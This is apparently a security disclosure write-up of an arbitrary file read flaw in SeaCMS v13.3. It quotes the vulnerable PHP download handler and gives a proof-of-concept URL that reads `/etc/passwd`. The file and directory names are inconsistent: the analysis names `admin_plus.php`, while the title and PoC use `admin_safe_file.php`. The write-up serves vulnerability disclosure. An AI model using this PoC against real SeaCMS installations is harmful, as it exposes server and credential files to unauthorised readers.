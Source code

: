 ## Arbitrary File Reading - admin_safe_file.php

### Introduction

SeaCMS v13.3 has an arbitrary file reading vulnerability. This vulnerability is located in the utility file `admin_safe_file.php`, which does not properly restrict the parameters, allowing an attacker to read arbitrary files.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)

### Vulnerability Attack Analysis

The vulnerable file exists in `0omeqd\admin_plus.php` where parameters are passed into `file_get_contents`, enabling arbitrary file reading.
```php
<?php
if(!(isset($_COOKIE['t00ls']) && $_COOKIE['t00ls'] == $md5) && !(isset($_POST['username']) && isset($_POST['password']) && (md5(md5($_POST['username']).md5($_POST['password']))==$md5)))
{
 setcookie("t00ls", $md5, time()+60*60*24*365,"/");
 header( 'refresh: 1; url='.MYFILE.'?action=scan' );
 exit();
}
elseif(isset($_POST['username']) && isset($_POST['password']) && (md5(md5($_POST['username']).md5($_POST['password']))==$md5))
{
 setcookie("t00ls", $md5, time()+60*60*24*365,"/");
 header( 'refresh: 1; url='.MYFILE.'?action=scan' );
 exit();
}
else
{
 setcookie("t00ls", $md5, time()+60*60*24*365,"/");
 $setting = getSetting();
 $action = isset($_GET['action'])?$_GET['action']:"";
  
 if($action=="logout")
 {
  setcookie ("t00ls", "", time() - 3600);
  Header("Location: ".MYFILE);
  exit();
 }
 if($action=="download" && isset($_GET['file']) && trim($_GET['file'])!="")
 {
  $file = $_GET['file'];
  ob_clean();
  if (@file_exists($file)) {
   header("Content-type: application/octet-stream");
      header("Content-Disposition: filename=\"".basename($file)."\"");
   echo file_get_contents($file);
  }
  exit();
 }
?>
```

We access the path with the following POC:
```r
ywmba6/admin_safe_file.php?action=download&file=/etc/passwd
```
This successfully reads the `/etc/passwd` file.
![](./public/10.png)